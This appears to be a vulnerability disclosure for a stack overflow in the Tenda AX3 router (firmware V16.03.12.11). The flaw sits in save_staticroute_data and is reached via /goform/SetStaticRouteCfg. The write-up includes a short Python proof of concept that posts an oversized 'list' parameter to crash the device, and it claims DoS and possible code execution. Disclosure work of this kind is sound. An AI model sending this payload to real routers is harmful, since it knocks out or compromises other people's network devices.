 # Stack Overflow Vulnerability in Tenda Router AX3 (V16.03.12.11)

## Overview

A stack overflow vulnerability exists in the latest version V16.03.12.11 of the Tenda Router AX3. This vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf` call, where improper input parameters from the `/goform/SetStaticRouteCfg` page lead to data being concatenated onto the stack without any checks.

## Vulnerability Details

In the latest version `V16.03.12.11` of the Tenda Router AX3, a vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf`. 

When handling requests from the `/goform/SetStaticRouteCfg` page, the construction of the parameter list can influence the `save_staticroute_data` function, causing input to be concatenated onto the stack by the `sscanf` function without any checks, leading to a stack overflow. 

![image-20250203211326509](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203211326509.png)

![image-20250203211413402](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203211413402.png)

With appropriate parameter construction, this can result in denial of service (DoS) and remote code execution (RCE).

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetStaticRouteCfg"

retaddr="bbbb"
payload = "1,2,3,"+"a"*0x674+p32(retaddr)
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo



![image-20250203214025940](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203214025940.png)



![image-20250203232553401](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232553401.png)![image-20250203232906046](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232906046.png)

![image-20250203232818981](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232818981.png)